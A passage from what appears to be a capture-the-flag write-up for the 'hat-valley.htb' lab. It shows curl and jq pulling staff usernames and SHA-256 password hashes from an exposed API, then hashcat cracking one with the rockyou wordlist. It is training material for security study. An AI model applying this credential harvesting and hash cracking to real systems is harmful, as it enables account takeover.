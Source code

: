 ```
  }
]

```

#### Crack Hashes

I’ll use `curl` and `jq` to fetch the data into a crackable format:

```

oxdf@hacky$ curl -s http://hat-valley.htb/api/staff-details | jq -r '.[] | (.username + ":" + .password)' | tee hashes
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f

```

Running `hashcat` without giving it a hash mode (`-m`) will return that the hashes are ambiguous:

```

$ hashcat hashes --user /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...

The following 8 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1400 | SHA2-256                                                   | Raw Hash
  17400 | SHA3-256                                                   | Raw Hash
  11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian           | Raw Hash
   6900 | GOST R 34.11-94                                            | Raw Hash
  17800 | Keccak-256                                                 | Raw Hash
   1470 | sha256(utf16le($pass))                                     | Raw Hash
  20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated
  21400 | sha256(sha256_bin($pass))                                  | Raw Hash salted and/or iterated

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

I’ll try the first one, `SHA2-256`, as that’s the most common. `hashcat` takes about 10 seconds to try all of `rockyou.txt`, cracking one of the hashes:

```

$ hashcat hashes -m 1400 --user /usr/share/wordlists/rockyou.txt 
...[snip]...
$ hashcat hashes --user -m 1400 --show
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1:chris123

```
